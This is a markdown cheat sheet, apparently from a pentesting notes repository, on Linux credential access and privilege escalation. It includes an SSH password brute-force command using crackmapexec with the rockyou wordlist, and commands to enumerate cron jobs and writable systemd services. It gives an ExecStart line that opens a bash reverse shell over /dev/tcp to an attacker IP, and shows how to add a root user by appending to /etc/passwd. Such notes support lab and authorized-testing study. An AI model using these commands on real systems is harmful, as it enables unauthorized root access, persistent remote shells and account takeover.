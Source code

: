 
#### Credential Access

- reused passwords
- found credentials from config files
- credentials from local DB
- credentials from bash history 
- reused ssh keys
- check group privilege
- brute force attack
```
crackmapexec ssh <ip> -u <user> -p /usr/share/wordlists/rockyou.txt
```
#### Abusing Cron Jobs

we can modify the cron jobs that are running and add lines for revers shell for example 
if the job run as high privilege user we get high privilege shell

```
cat /etc/crontab
c
ls -lah /etc/cron*
crontab -l
grep "CRON" /var/log/syslog
```

- search for con job that run a file as root
- search for writeable Cron Job dependency files

#### Services
list writable services
```
find / -writable -name "*.service" 2>/dev/null
```

add
```
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<local-ip>/4444 0>&1'
```
#### Abusing Password Authentication

if there is misconfiguration and we have privilege to write to **/etc/passwd** we can add root user
```
# run on the terget

# generate a password hash
openssl passwd pass123

# write to /etc/passwd
echo "<user>:<hashed_password>:0:0:root:/root:/bin/bash" >> /etc/passwd
```
https://binaryregion.wordpress.com/2021/06/05/privilege-escalation-linux-adding-a-new-root-user/
MD5, SHA-256, or SHA-512

- /etc/passwd - write permission
- /etc/shadow - read permission
- /etc/sudoers - write permission
- /root/.ssh/ - read permissions
